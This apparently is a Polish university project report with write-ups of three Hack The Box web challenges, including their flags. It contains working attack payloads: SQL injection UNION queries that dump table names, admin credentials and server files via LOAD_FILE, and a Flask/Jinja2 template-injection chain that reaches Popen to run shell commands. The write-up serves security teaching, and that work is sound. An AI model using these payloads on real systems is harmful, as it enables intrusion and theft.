

<center>
## 1. [Projekt] Zadanie 1
**Przedmiot:** Podstawy Bezpieczeństwa Oprogramowania
**Prowadzący:** dr inż. Ostap Hubert
**Autor:** Konopka Michał WCY18IJ4S1
</center>

<div style="page-break-after: always"></div>

## 2. Zadania

### 2.1 Zadanie 1
**Nazwa:** Emdee five for life
**Punkty:** 20
**Flaga** HTB{N1c3_ScrIpt1nG_B0i!}
1. Na wejściu otrzymujemy losowy łańcuch znaków
2. Mamy zadanie go zahashować, funkcją hashującą MD5, gdy robimy to z wykorzystaniem narzędzia online, to w odpowiedzi znajdujemy wskazówkę: `Too slow`
3. W dev-tools zakładka network, aby prześledzić requesty:
     * Do generowania losowego string'a `GET http://188.166.168.204:31661/`
     * Do wysyłania zahashowanego string'a `POST http://188.166.168.204:31661/`
4. Napisałem skrypt (nodejs), który miał byc za zadanie szybszy ode mnie :
```javascript
const Axios = require('axios').default;
const cheerio = require('cheerio');
const md5 = require('md5');
const fetch = require('node-fetch');

(async () => {
    const axios = Axios.create(); 
    const url = 'http://188.166.168.204:31661/';
    const responseGet = (await axios.get(url));
    const html = responseGet.data;
    const cookie = responseGet.headers['set-cookie'][0];
    const $ = cheerio.load(html);
    const value = $('h3')[0].children[0].data;

    fetch("http://188.166.168.204:31661/", {
        "headers": {
          "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
          "accept-language": "pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7",
          "cache-control": "max-age=0",
          "content-type": "application/x-www-form-urlencoded",
          "sec-gpc": "1",
          "upgrade-insecure-requests": "1",
          "cookie": cookie.split(';')[0]
        },
        "referrer": "http://188.166.168.204:31661/",
        "referrerPolicy": "strict-origin-when-cross-origin",
        "body": `hash=${md5(value)}`,
        "method": "POST",
        "mode": "cors"
      }).then(r => r.text()).then(console.log);
})();
```
*Skrypt najpierw odpytuję stronę, w odpowiedzi dostaję html z którego odczytuję znaki do zahashowania, w odpowiedzi otrzymuję również ciasteczko sesji które następnie przekazywane jest przy następnym zapytaniu. Ostatnie zapytanie POST, zostało wygenerowane z DevTools, opcją copy as: Node-Fetch*
5. Rezultat 

<div style="page-break-after: always"></div>

### 2.2 Zadanie 2
**Nazwa:** Freelancer
**Punkty:** 30
**Flaga** HTB{s4ff_3_1_w33b_fr4__l33nc_3}
1. Na wejściu otrzymujemy stronę internetową free lancera
2. Na początku zwróciłem uwagę na formularz do kontaktu znajdujący się na dolę strony, próbowałem tam się wstrzyknąć za pomocą sql injection, ale nie zależnie od przekazywanych danych zawsze otrzymałem status odpowiedzi 500.
3. Przyglądając się HTML'owi udało mi się znaleźć, ciekawy link: `/portfolio?id=1`, wykorzystując narzędzie Burp -> Intruder (id: 1..50), a następnie Comparer wykryłem, że dla pierwszych id znajdują się jakaś treść, a w pozostałych brak. Ta treść to takie lorem ipsum, ale zapewne zaciągane z bazy danych. Co nasunęło mi ponownie pomysł z sql injection tym razem w kontekście zapytania `/portfolio?id=--sql`
4. Spróbowałem takiego zapytania: `/portfolio?id=1%20OR%201%3d1%20--`, i zostały wpisane 3 opisy w opowiedź, czyli wiem, że podatność to **SQL INJECTION**, teraz trzeba tylko znaleźć flagę :)
5. Dzięki zapytaniu: `1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.tables` udaję się uzyskać listę wszystkich tabel, interesująca się wydaje o nazwie `safeadmin`, dodatkowo wiem że serwer bazy danych to MYSQL
6. Tak poznałem listę kolumn `1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns`
7. Pozyskanie loginu i hasła admina: `1 AND 1=2 UNION SELECT 1,username,password FROM safeadmin`
   1. Password: `$2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K`
   2. username: `safeadm`
8. Uruchomiłem John The Ripper w celu złamania hasła(bruteforce), ale ponieważ ten proces trwa, i w sumie nie wiem gdzie mógłbym użyć, tego hasła, postanowiłem przeskanować strukturę katalogów, z początku chciałem użyć do tego Burp, ale przez to że korzystam z wersji community jest on bardzo wolny. Wypróbowałem narzędzie DirBuster które jest setki razy szybsze, udało mi się dzięki temu znaleźć stronę: `administrat/index.php` do której jest możliwość zalogowania się.
9. Doczytałem, w `Bezpieczeństwo aplikacji webowych`, że jest możliwość odczytu plików za pomocą sql w przypadku bazy MySQL, a więc wykorzystałem tą podatność najpierw do odczytania pliku, `administrat/index.php` a następnie jego kod wskazał mi plik `administrat/panel.php` w którym znajdowała się flaga. Użyte query do odczytania pliku: `1 AND 1=2 UNION SELECT 1,LOAD_FILE('/var/www/html/administrat/panel.php'),password FROM safeadmin`
10. Rezultat: 

<div style="page-break-after: always"></div>
Uwaga screeny od tego miejsca będą się różnic, ponieważ musiałem oddać mój komputer na gwarancje, i korzystam z zastępczego.

### 2.3 Zadanie 3
**Nazwa:** Templated
**Punkty:** 20 
**Flaga** HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!
1. Wchodzę na stronę i jedyna sensowna treść jak się ukazuję to: `Proudly powered by Flask/Jinja2`
2. Wipsuję w wyszukiwarke: `hack Flask/Jinja2`, znajduję taki artykuł https://blog.nvisium.com/p263
3. Sprawdzam czy są gdzieś na stronie wyświetlane dane przekazane prze użytkownika. Są wystarczy wpisać: `http://188.166.168.204:31061/page` i w odpowiedzi dostajemy `The page page could not be found`, a więc możemy w to miejśce próbować wstrzyknąć jakiś złośliwy kod.
4. Aby wykonać kod wewnątrz templatu należy umieścić go w: `{{ ... }}`
5. Z wyżej wskazanego poradnika dowiaduję się, że w kontekście templatu jest dostępny obiekt o nazwie `request`
6. Pobieram kod żródłowy flaska(https://github.com/pallets/flask.git), aby odnaleźć tam `request` i zobaczyć z czego się składa, okazuję się, że flask jest wraperem wokół `werkzeug` i to w jego kodzie znaujduję klasa `request` https://github.com/pallets/werkzeug/blob/master/src/werkzeug/wrappers/request.py , ale nic mi sie narazie nie rzuca w oczy
7. Chciałbym odczytać pliki serwera bo pewnie gdzieś tam jest zakodowana flaga, w konsoli pythona (lokalnie) wykonuje takie polecenie `>>> __builtins__.__import__('os')`, które pozwala mi uzyskać dostęp do modułu `os` który z koleji pozwoliłby mi dostać się do wszystkich plików, lecz wstrzykiwane nie wykonuję się poprawnie.
8. Natknałem się na następny opis tej podatnośći, `https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee`, opisany tam exploit polega na przeszukaniu drzewa klas w pythonie i dostania się w ten sposób do takiej która umożliwi nam egzekucje kodu. Wykorzystane są do tego wbudowane metody pythona `__mro__` - do wyświetlenia wszystkich klas (jest to kolejność w jakiej są ładowane klasy, dlatego powinniśmy wywołać ją na jakieś nisko pzoiomowej klasie jak `object`)
9. Następnie w drzewie klas otrzymanych poleceniem `1.__class__.__mro__[1].__subclasses__()` (wszystkie klasy dziedziczące po klasie `object` w tym projekcie), należało znaleźć klasę która umożliwi odczyt plików, ctrl+f i widać ze istnieje klasa `Popen` która służy do otwierania podprocesów, ma indeks [414] (zgadnięty drogą prób i błędów)
10. Wylistowanie istniejących plików: `1.__class__.__mro__[1].__subclasses__()[414](["ls","-la"],stdout=-1).communicate()`, w outpucie widać plik flag.txt :)
11. Odczytanie flagi (plik flag.txt): `1.__class__.__mro__[1].__subclasses__()[414](["cat","flag.txt"],stdout=-1).communicate()`
12. Rezultat: 